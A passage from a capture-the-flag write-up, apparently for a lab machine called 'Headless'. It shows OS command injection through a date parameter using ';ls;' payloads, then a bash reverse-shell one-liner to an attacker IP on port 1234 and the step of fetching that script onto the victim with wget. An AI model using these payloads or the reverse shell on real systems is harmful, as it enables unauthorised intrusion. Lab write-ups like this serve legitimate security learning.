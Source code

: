 Date parameter is sent using post request. So there could be the possibility of OS command injection if inputs are not validated properly.
- first attemp, I concatenated the date parameter with `;ls` but didnot get expected result.
- second try, then  I modified my payload as `;ls;` then I got the output exactly what I wished for 😍.
![command injection worked!](./headless/command_injection.jpg)


-----------------
from here You can easily grab the user flag by just exploring the file system and trying some different directories.
![exploring files](./headless/exploring_files.jpg)

But it is not the good way. It'd be better if we get a reverse shell first because gaining a reverse shell is the ideal thing in pentesting. So lets fire up a netcat listener on port 1234 and upload a reverse shell on victim machine.

step 1 => build an executable file with payload to get reverse shell.
```bash
echo "bash -i >& /dev/tcp/10.10.14.116/1234 0>&1;" > reverse_shell.sh
chmod +x reverse_shell.sh
```
step 2 => start the python server with `python -m http.server` and then use `wget http://<ipaddress>port/`to upload reverse shell on victim's machine.